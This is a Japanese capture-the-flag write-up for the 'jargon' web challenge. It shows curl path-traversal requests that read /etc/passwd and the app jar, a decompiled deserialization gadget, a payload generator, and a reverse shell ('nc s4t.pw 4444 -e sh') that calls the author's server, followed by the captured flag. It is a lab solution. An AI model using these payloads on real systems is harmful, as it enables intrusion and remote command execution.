

# jargon:Web:95pts
This ticketing platform looks like it was built back in the late ’90s, yet somehow it’s still running in 2025. Many of the flaws it carries are relics of an older era of the web. The question is: can you still exploit these outdated systems today, or has old-school web exploitation become harder in the modern landscape?  

Address: [http://34.89.179.154:30926](http://34.89.179.154:30926)  

---

Q1. What is the flag? (Points: 95)  
ctf{sha256}  

# Solution
URLだけが渡されるので、ブラックボックスで解けということらしい。  
アクセスすると、コンタクトフォームのようだ。  
  
送信すると、チケットが開かれる。  
  
チケットのURLは`http://34.89.179.154:30926/ticket?id=51`であった。  
`id`に何かあるのではと思い、`'`を入れると以下のエラーが発生した。  
```
Error: [SQLITE_ERROR] SQL error or missing database (unrecognized token: "'")
```
SQLiが自明にあるので、テーブルをダンプしてみるが`tickets`のみであった。  
初めから右上の`Tickets`のリンク先である`http://34.89.179.154:30926/tickets?user=admin`で他人のチケットも閲覧できるため、特に情報量は増えていない。  
次に、チケットに添付したファイルが`http://34.89.179.154:30926/download?id=51`でDLできるらしいが、機能的に壊れている。  
この`id`にも何かあるのではと思い、`../../../../../etc/passwd`を指定するとファイルが降ってきた。  
```bash
$ curl 'http://34.89.179.154:30926/download?id=../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
~~~
```
`/flag`や`/flag.txt`には何もないため、ひとまず実行されているアプリケーションの場所を取得する。  
```bash
$ curl -s 'http://34.89.179.154:30926/download?id=../../../../../proc/self/cmdline' | strings
java
-jar
/app/target/jargon.jar
```
`/app/target/jargon.jar`のようなので、取得して展開する。  
```bash
$ curl -s 'http://34.89.179.154:30926/download?id=../../../../../app/target/jargon.jar' -o jargon.jar
$ unzip jargon.jar -d extracted
Archive:  jargon.jar
~~~
  inflating: extracted/ctf/jargon/App.class
  inflating: extracted/ctf/jargon/Exploit.class
~~~
$ cd extracted/ctf/jargon/
$ wget https://www.benf.org/other/cfr/cfr-0.152.jar -O cfr.jar
~~~
$ java -jar cfr.jar App.class Exploit.class --outputdir decompiled
Processing ctf.jargon.App
Processing ctf.jargon.Exploit
```
`App`と`Exploit`があり、最も気になる`Exploit.java`は以下の通りであった。  
```java
/*
 * Decompiled with CFR 0.152.
 */
package ctf.jargon;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Exploit
implements Serializable {
    private static final long serialVersionUID = 1L;
    private String cmd;

    public Exploit(String cmd) {
        this.cmd = cmd;
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec(this.cmd);
    }

    public String toString() {
        return "Exploit triggered with command: " + this.cmd;
    }
}
```
明らかにガジェットとして使ってくれとばかりに危険なコードである。  
もう一つの`App.java`には以下の個所が含まれるため、細工したオブジェクトをPOSTすると任意コードが実行可能となる。  
```java
~~~
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        String ctype = req.getContentType();
        resp.setContentType("text/html");
        if (ctype != null && ctype.startsWith("application/octet-stream")) {
            try (ObjectInputStream ois = new ObjectInputStream((InputStream)req.getInputStream());){
                Object obj = ois.readObject();
                resp.getWriter().println(this.header("Exploit") + "<div class='bg-red-900 p-6 rounded'><h2 class='text-xl font-bold text-red-300 mb-2'>[!] Deserialization Result</h2><p class='text-gray-200'>" + obj.toString() + "</p></div>" + this.footer());
~~~
```
以下のようなPayloadGen.javaでオブジェクトをシリアライズして利用する。  
リバースシェルは`nc s4t.pw 4444 -e sh`とし、自身の持つサーバ`s4t.pw`で`nc -lvnp 4444`と待ち受ける。  
```java
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import ctf.jargon.Exploit;

public class PayloadGen {
    public static void main(String[] args) throws Exception {
        Exploit e = new Exploit("nc s4t.pw 4444 -e sh");
        try (ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("payload.ser"))) {
            oos.writeObject(e);
        }
        System.out.println("wrote payload.ser");
    }
}
```
次のようにPOSTまで行う。  
```bash
$ tree
.
├── PayloadGen.java
└── ctf
    └── jargon
        ├── App.java
        └── Exploit.java

2 directories, 3 files
$ javac PayloadGen.java
$ java PayloadGen
wrote payload.ser
$ curl -X POST http://34.89.179.154:30926/contact -H 'Content-Type: application/octet-stream' --data-binary @payload.ser
<!DOCTYPE html><html lang='en'><head><meta charset='UTF-8'><meta name='viewport' content='width=device-width, initial-scale=1.0'><title>Exploit - Jargon Corp</title><script src='https://cdn.tailwindcss.com'></script></head><body class='bg-gray-900 text-gray-100 font-sans'><nav class='bg-gray-800 shadow mb-8'><div class='max-w-6xl mx-auto px-4 py-4 flex justify-between'><a href='/' class='text-indigo-400 text-xl font-bold'>Jargon Corp</a><div class='space-x-6'><a href='/' class='hover:text-indigo-300'>Home</a><a href='/tickets?user=admin' class='hover:text-indigo-300'>Tickets</a></div></div></nav><div class='max-w-4xl mx-auto px-4'><div class='bg-red-900 p-6 rounded'><h2 class='text-xl font-bold text-red-300 mb-2'>[!] Deserialization Result</h2><p class='text-gray-200'>Exploit triggered with command: nc s4t.pw 4444 -e sh</p></div></div><footer class='mt-12 bg-gray-800 py-4 text-center text-gray-400 text-sm'>© 2025 Jargon Corp — All rights reserved.</footer></body></html>
```
すると自身の持つサーバへ以下のようにシェルが降ってきた。  
```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 34.89.179.154 21525
ls
jargon.db
pom.xml
target
uploads
ls /
app
bin
dev
etc
flag-butlocationhastobesecret-1942e3.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat /flag-butlocationhastobesecret-1942e3.txt

ctf{a303b9d784195c971e0ff1c1c94723bcc26c4a0b714e919d898a26e82d6c843c}
```
`/flag-butlocationhastobesecret-1942e3.txt`にflagが書かれていた(SQLiは何に使うのか……)。  

## ctf{a303b9d784195c971e0ff1c1c94723bcc26c4a0b714e919d898a26e82d6c843c}